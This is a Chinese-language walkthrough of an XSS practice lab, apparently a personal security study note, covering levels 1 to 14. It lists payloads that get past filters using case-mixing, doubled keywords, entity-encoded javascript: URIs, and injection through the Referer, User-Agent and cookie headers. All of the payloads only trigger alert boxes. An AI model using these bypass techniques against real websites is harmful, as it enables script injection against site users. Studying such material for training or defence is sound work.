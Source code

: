 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15







